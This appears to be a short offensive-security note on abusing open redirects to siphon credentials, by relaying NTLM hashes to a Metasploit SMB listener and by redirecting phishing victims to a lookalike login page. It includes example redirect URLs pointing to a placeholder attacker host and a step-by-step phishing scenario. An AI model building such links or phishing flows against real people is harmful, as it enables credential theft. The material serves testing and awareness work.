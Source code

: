 # Siphon Credentials

## NTLM Relay

An attacker could exploit an open redirect by combining Metasploit SMB relay and the open redirect flaw. The attacker would set up exploits/windows/smb/smb_relay on evil.com and redirect to \\evil.com\c$. When the redirect occurs, the victim will to try to open a network share and thus send over their windows credentials. This attack only works on victims that is using Internet Explorer.  
  
```
https://example.com/?u=\\<attacker_IP>\C$
```

## Phishing Redirect

When a user clicks a link in an email, they are taught to first hover the link and read where it goes. If the link points to a website they trust, it is very likely that they will follow the link. Only a really trained eye would react due to a redirection after clicking a trusted link. In fact, redirects are actually very common the case of authentication.  
  
This type of attack that you should be worried about that I mentioned in the introduction. An attack that is almost 100% success that we commonly use looks similarly to this:  
1. The victim gets an email saying "Alice shared a document with you"  
2. The email contains a link to `office365.com`.  
3. The victim clicks the link and gets redirected to `office365.secure.evil.com`. Note that the user is used to being redirected when authenticating due to Single-sign on features.
4. The victim fails to verify the final url and leaks his credentials.
5. The victim is then redirected to the real logon portal where they (presumibly) successfully log in.
  
It is not only hard to detect the attack for the victim, but in many cases also for the blue team who tries to find the phishing email / patient zero from the bigger picture. For example:

```
https://example.com/?u=http[s]://<attacker_IP>/login
```

---
## References

- [Stevetabernacle: Open redirects - the vulnerability class no one but attackers cares about](https://web.archive.org/web/20190104183245/https://stevetabernacle.github.io/blog/open-redirects-the-vulnerability-class-no-one-but-attackers-cares-about/)